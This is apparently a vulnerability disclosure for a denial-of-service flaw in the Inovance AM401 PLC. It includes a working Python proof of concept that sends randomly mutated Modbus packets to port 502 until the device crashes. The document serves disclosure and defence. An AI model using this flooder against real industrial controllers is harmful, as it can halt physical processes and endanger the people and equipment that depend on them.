 # Summary
There is a denial of service vulnerability in port 502 of Inovance AM401 PLC. An attacker can send a large number of modbus protocol data packets to cause the PLC to crash.

# Details
My host ip:![image](https://github.com/user-attachments/assets/7a6cd389-bddb-43c9-994c-5356f3468745)

Connectivity test of the device:
![image](https://github.com/user-attachments/assets/4c48b67b-3d88-4e49-9689-a3cd9046b9ce)

Nmap scans device ports:
![image](https://github.com/user-attachments/assets/9038fe3e-9051-4d16-b732-b579b933c96d)
You can see that port 502 is open.

Then we run the script:
![image](https://github.com/user-attachments/assets/62888b9e-8f0f-4a09-a26a-cd344c7c2345)

Soon you will see the device crash.
![image](https://github.com/user-attachments/assets/189ccdf2-398a-48bf-95f8-069994ebfbb4)
![image](https://github.com/user-attachments/assets/00e1625c-d950-4041-bc3c-986838f74292)


# PoC
My host ip is `192.168.1.149` and the device's ip is `192.168.1.88`.

```py
import socket

def F1(x):
    return x ^ 0xFF
    pass
def F2(x):
    return x ^ 0xFE
    pass
def F3(x):
    return (x-0x10) & 0xFF
    pass
def F4(x):
    return (x*0x17) & 0xFF
    pass

def F5(x):
    return (x**2) & 0xFF

def Change(data: bytes):
    l = len(data)
    import random
    pos = 0
    while ((pos==0) or (pos == 20)):
        pos = random.randint(0, l - 1) 
    Fs = [F1, F2, F3, F4, F5]
    f = random.randint(0, 4)  
    func = Fs[f]
    newX = func(data[pos])

    hex_str = format(newX, '02x')
    data = data[:pos] + bytes.fromhex(hex_str) + data[pos + 1:]

    return data

ori = "00 01 00 00 00 06 01 03 00 00 00 0a"
ori = bytes.fromhex(ori.replace(" ", ""))
queue = []

queue.append(ori)
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.88",502))
MAX_LEN = 65536
cur = 0
first = False
while True:
    if((cur)%100 == 0):
        print(cur,end=' ')
    for i in range(8):
        top = queue[cur]
        now = Change(top)
        queue.append(now)
        try:
            s.send(now)
            import time
            # time.sleep(0.1)
            # s.close()
        except:
            if first == False:
                print()
                print("\033[91m[+] CRASHED!!!!!!!!!!!!!!!!!!\033[0m")
    cur = (cur + 1) % MAX_LEN
```

# Discoverer
ylqncepu@163.com

https://github.com/N0zoM1z0
